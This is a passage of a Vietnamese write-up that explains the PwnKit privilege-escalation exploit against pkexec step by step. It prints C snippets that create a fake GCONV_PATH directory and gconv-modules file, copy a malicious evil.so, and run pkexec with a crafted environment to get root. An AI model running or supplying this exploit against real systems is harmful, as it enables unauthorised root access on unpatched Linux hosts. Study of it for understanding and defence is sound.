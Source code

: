 **3. Tạo thư mục và tập tin giả**

```c
system("mkdir GCONV_PATH=.");
system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
```

- mkdir GCONV_PATH=.: Tạo một thư mục giả mạo có tên GCONV_PATH=.
- touch GCONV_PATH=./evildir: Tạo một tập tin có tên evildir (dùng để đánh lừa pkexec).
- chmod 777 GCONV_PATH=./evildir: Cấp quyền đọc, ghi, thực thi cho tất cả người dùng.

**4. Tạo thư mục chứa module gconv giả**

```c
system("mkdir " DIR);
system("echo 'module\tINTERNAL\t\tryaagard//\t\t" EVILSO "\t\t2' > " DIR "/gconv-modules");
```

- mkdir evildir: Tạo thư mục evildir, nơi chứa thư viện gconv giả.
- echo 'module INTERNAL ryaagard// evil 2' > evildir/gconv-modules:
  - Khai báo một module gconv giả có tên ryaagard.
  - Gán module ryaagard trỏ đến thư viện độc hại evil.so.
  - INTERNAL: Đánh dấu module này không thực hiện chuyển đổi thực sự, chỉ dùng để tải thư viện.

**5. Sao chép thư viện độc hại**

```c
system("cp " EVILSO ".so " DIR);
```

- cp evil.so evildir/: Chép thư viện độc hại (evil.so) vào thư mục evildir/.

**6. Thực thi pkexec với môi trường giả**

```c
execve(BIN, argv, envp);
```

- Gọi execve() để chạy /usr/bin/pkexec với danh sách biến môi trường envp[].

pkexec sẽ:
- Tìm kiếm module gconv dựa vào GCONV_PATH=.
- Tải gconv-modules giả.
- Nạp thư viện evil.so.
- Chạy mã trong evil.so, giúp kẻ tấn công thực thi lệnh với quyền root.

### 2.4 Khai thác

**Phiên bản khai thác:**

* Hệ điều hành (OS): Ubuntu 20.04

![image](images/img1.png)
